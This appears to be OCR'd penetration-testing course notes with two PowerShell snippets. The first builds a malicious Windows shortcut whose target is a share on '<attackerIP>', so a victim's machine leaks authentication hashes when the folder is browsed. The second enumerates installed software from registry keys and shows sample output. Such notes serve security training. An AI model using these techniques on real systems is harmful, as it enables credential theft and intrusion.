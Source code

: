 ### Generating a Malicious .lnk File

```
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

### Get Installed Programs via PowerShell & Registry Keys

```
PS C:\htb> $INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
PS C:\htb> $INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
PS C:\htb> $INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize

DisplayName                                         DisplayVersion    InstallLocation
-----------                                         --------------    ---------------
Adobe Acrobat DC (64-bit)                           22.001.20169      C:\Program Files\Adobe\Acrobat DC\
CORSAIR iCUE 4 Software                             4.23.137          C:\Program Files\Corsair\CORSAIR iCUE 4 Software
Google Chrome                                       103.0.5060.134    C:\Program Files\Google\Chrome\Application
Google Drive                                        60.0.2.0          C:\Program Files\Google\Drive File Stream\60.0.2.0\GoogleDriveFS.exe
Microsoft Office Profesional Plus 2016 - es-es      16.0.15330.20264  C:\Program Files (x86)\Microsoft Office
Microsoft Office Professional Plus 2016 - en-us     16.0.15330.20264  C:\Program Files (x86)\Microsoft Office
mRemoteNG                                           1.62              C:\Program Files\mRemoteNG
TeamViewer                                          15.31.5           C:\Program Files\TeamViewer
...SNIP...
```
